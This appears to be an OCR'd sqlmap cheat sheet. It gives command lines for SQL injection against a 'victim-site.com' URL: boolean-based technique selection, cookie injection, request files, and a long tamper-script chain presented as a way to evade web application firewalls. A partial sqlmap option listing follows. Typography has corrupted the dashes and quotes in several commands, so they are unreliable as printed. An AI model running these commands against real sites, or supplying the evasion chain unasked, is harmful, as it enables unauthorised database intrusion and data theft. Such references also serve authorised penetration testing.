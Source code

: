 sqlmap –u “https://victim-site.com/product.php?id=1” –technique=B

Force SSL:

You can use the force SSL flag in SQLMap to utilize SSL in requests.

sqlmap –u “https://victim-site.com/product.php?id=1” –force-ssl

Request File:

Use a request file that has the HTTP request

sqlmap  -r request.txt

Specify Cookie Injection:

Must set level to be 2 or greater.

sqlmap  --cookie=”u_id=1” –u “https://victim-site.com/page.php” –p “u_id” –level 3

Evade WAF and Filters with Tamper Scripts:

Credit to RedCode for this one

sqlmap -u “http://www.victim-site.com/product.php?id=1” — level=5 — risk=3  tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords

Resources for some switches:


    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -d DIRECT           Connection string for direct database connection
    -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
    -m BULKFILE         Scan multiple targets given in a textual file
    -r REQUESTFILE      Load HTTP request from a file
    -g GOOGLEDORK       Process Google dork results as target URLs
    -c CONFIGFILE       Load options from a configuration INI file


    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)
    --string=STRING     String to match when query is evaluated to True
    --not-string=NOT..  String to match when query is evaluated to False
    --regexp=REGEXP     Regexp to match when query is evaluated to True
    --code=CODE         HTTP code to match when query is evaluated to True
    --smart             Perform thorough tests only if positive heuristic(s)
    --text-only         Compare pages based only on the textual content
    --titles            Compare pages based only on their titles
    
# Extra
Specify The Database Type

sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
